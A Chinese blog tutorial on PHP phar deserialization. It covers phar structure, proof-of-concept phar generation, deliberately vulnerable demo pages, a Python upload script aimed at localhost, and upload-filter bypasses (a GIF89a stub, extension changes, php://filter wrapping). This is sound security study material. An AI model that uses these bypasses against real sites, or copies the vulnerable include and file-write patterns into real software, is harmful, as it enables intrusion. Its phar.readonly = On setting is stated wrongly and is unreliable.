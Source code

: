 ```yaml
---
title: 浅析phar反序列化
date: 2024-10-22 16:11:27
permalink: /pages/88a8e0/
author: 
  name: Cola
  link: https://the0n3.top
---
```

# 浅析phar反序列化

## 定义

官方解释：什么是 phar？PHAR（PHP Archive）文件实际上是一种打包格式，用于将多个 PHP 文件和资源打包成一个文件。phar 归档的最佳特征是可以将多个文件组合成一个文件。phar 归档可以像任何其他文件一样由 PHP 在命令行和 Web 服务器上执行。

可不可以这样认为？phar文件是一个移动U盘，php可以通过`phar://`协议直接访问和执行U盘中的文件？

可以使用任何 fopen() 相关函数，opendir() 和 mkdir() 相关函数在 phar 归档内读取、更改、创建新文件或目录

<!-- more -->

## 结构

phar文件本质是一种压缩文件


### stub （phar文件头）

前面xxx内容不限，但必须以`__HALT_COMPILER();`结尾，否则phar扩展无法识别这个phar文件

因为前面的内容不限，在遇到限制文件格式时可以通过stub伪造文件类型上传

```php
xxx<?php xxx; __HALT_COMPILER();?>
```

### manifest （元数据）

在这部分会将序列化的形式存储用户自定义的meta-data，这里即为反序列化漏洞点。

### contents （压缩文件内容）

被压缩文件的内容，可以写入php代码，通过include()及phar协议进行文件包含或者phar协议具体到某个php文件直接执行

### signature （签名）

可选

## 利用

在`php.ini`修改配置，开启`phar.readonly`选项，取消前面的`;`注释

```plaintext
[Phar]
; http://php.net/phar.readonly
phar.readonly = On
```

利用前提

- 存在文件上传/文件读写
- 页面定义了类，且存在文件操作的函数

受影响函数列表[原文地址](https://paper.seebug.org/680/)

![1](https://the0n3.top/medias/stuphar/1.png)

本地简单尝试利用

phar.php生成phar文件

```php
<?php
highlight_file(__FILE__);
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = 'hello,phar';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "<?php phpinfo();?>"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

index.php通过phar协议实现文件包含

```php
<?php
highlight_file(__FILE__);
include$_GET['file'];
```

![3](https://the0n3.top/medias/stuphar/3.png)

文件操作触发的反序列化

通过写文件代替文件上传，使用file_get_contents()函数举例读取文件时触发`phar`反序列化

```php
<?php
highlight_file(__FILE__);
    class test{
    public $a;
    public function __destruct(){
        phpinfo();
    }
}
# 直接写文件代替文件上传
@file_put_contents($_POST['filename'],$_POST['content']);

$file = $_GET['file'];
@file_get_contents($file);
?>
```

生成phar文件

```php
<?php
highlight_file(__FILE__);
    class test {
        public $a;
    }
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new test();
    $o -> a='hacker';
    
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "aaa"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

题目使用file_put_contents()函数写入文件，直接复制`shell.phar`文件内容会失败

需要复制二进制内容，使用python读取、上传

```python
import requests

url = 'http://localhost/stuphar/'
data = {
    'filename':'a.phar',
    'content':open('shell.phar','rb').read(),
}
resp = requests.post(url,data=data)
print(resp.text)
```

上传后，使用phar协议读取phar文件，触发反序列化

![2](https://the0n3.top/medias/stuphar/2.png)

## 扩展名

php通过`stub`文件头识别phar文件，所以可以自由修改文件后缀名绕过

## 文件头绕过

`$phar->setStub("<?php __HALT_COMPILER(); ?>");`，这里`stub`的文件头存在操作空间，添加一些白名单文件头

```php
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
```

## 伪协议绕过

限制`phar://`协议开头时，通过其他协议绕回来

```php
include('php://filter/read=convert.base64-encode/resource=phar://phar.phar/test.txt');
```

参考：

- [浅析phar反序列化](https://baozongwi.xyz/2024/09/05/%E6%B5%85%E6%9E%90phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)
- [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)
- [phar反序列化](https://blog.foreverwl.top/archives/pharfxlh#heading-2)
- [Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://blog.zsxsoft.com/post/38)
- [通过Phar文件进行的反序列化攻击](https://chenlvtang.top/2021/03/20/%E9%80%9A%E8%BF%87Phar%E6%96%87%E4%BB%B6%E8%BF%9B%E8%A1%8C%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%94%BB%E5%87%BB/)
